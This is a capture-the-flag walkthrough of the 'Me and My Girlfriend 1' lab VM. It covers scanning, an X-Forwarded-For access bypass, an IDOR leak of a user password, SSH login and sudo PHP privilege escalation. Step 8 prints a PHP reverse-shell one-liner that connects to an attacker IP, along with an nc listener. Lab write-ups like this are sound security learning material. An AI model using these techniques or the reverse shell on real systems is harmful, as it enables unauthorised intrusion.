 
# Me and My Girlfriend 1: Walkthrough

To find the IP of the VM, I performed an ARP scan:  
![img](./ss/arp.png)\
Found the IP: `192.168.122.3`

## Step 1: Nmap Scan
Performed an Nmap scan:  
![img](./ss/nmap.png)\
Discovered Apache is running. Let’s access it.

## Step 2: Accessing the Web Page
Accessing the IP in browser led to an access denied page:  
![img](./ss/site.png)\
**Tip:** Always check source code of pages.  
Found a hidden message in the source:  
![img](./ss/sourcecode.png)\
It hinted at using `X-Forwarded-For` header.

## Step 3: Using BurpSuite to Add Header
I opened BurpSuite, intercepted the request and added the `x-forwarded-for` header:  
![img](./ss/burp.png)\
Success! Gained access to "Ceban Corp":  
![img](./ss/ceban.png)

## Step 4: Exploring the App
Tried SQL injection on login page – didn’t work. So I registered an account:  
![img](./ss/rgstr.png)\
Logged in and checked profile section. The URL had an `id` parameter:  
![img](./ss/profile.png)

## Step 5: Testing for IDOR
Suspected an IDOR vulnerability – tested by changing `id` values. It worked!  
Stumbled upon an interesting user profile page with `id=5`,
Box description mentioned “Alice” so this user is important: 
![img](./ss/alice.png)\
Modified input type using browser dev tools and revealed password: `4lic3`  
![img](./ss/inspect.png)
![img](./ss/4lic3.png)

## Step 6: SSH Access
Since SSH was running, tried Alice’s creds:  
![img](./ss/ssh.png)\
And BOOM! Got in as alice.

## Step 7: Getting the User Flag
Couldn’t find anything obvious, so I explored hidden directories. Found a hidden directory `my_secret`:  
![img](./ss/ls.png)\
Inside the `my_secret` folder – flag1.txt: `gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}` and a note \
(poor Bob):  
![img](./ss/flag1.png)

## Step 8: Privilege Escalation
Checked sudo permissions – saw Alice can run PHP as root:  
![img](./ss/sudo.png)\
Upgraded to root with the following command as PHP is sudo-able:  
```bash
sudo php -r 'system("/bin/bash");'
```  
![img](./ss/php.png)

### Alternative method:
```bash
sudo php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```
note: IP is the ip of attack device not of the victim device.\
And on another terminal(to recieve):  
```bash
nc -pvl PORT
```

## Step 9: Getting the Root Flag
Now that we’re root, headed for the flag:  
![img](./ss/flag2.png)\
Found: `gfriEND{56fbeef560930e77ff984b644fde66e7}`

---

## 🏁 Conclusion

This box was a great mix of basic enumeration, bypass techniques, and web exploitation (X-Forwarded-For header, IDOR, dev tools).  
It reinforced the importance of:

- Always checking page source and URLs
- Thinking from a user access point of view
- Exploring every input for unintended access or leakage

Loved the progression from simple access control to privilege escalation. On to the next one! 💥
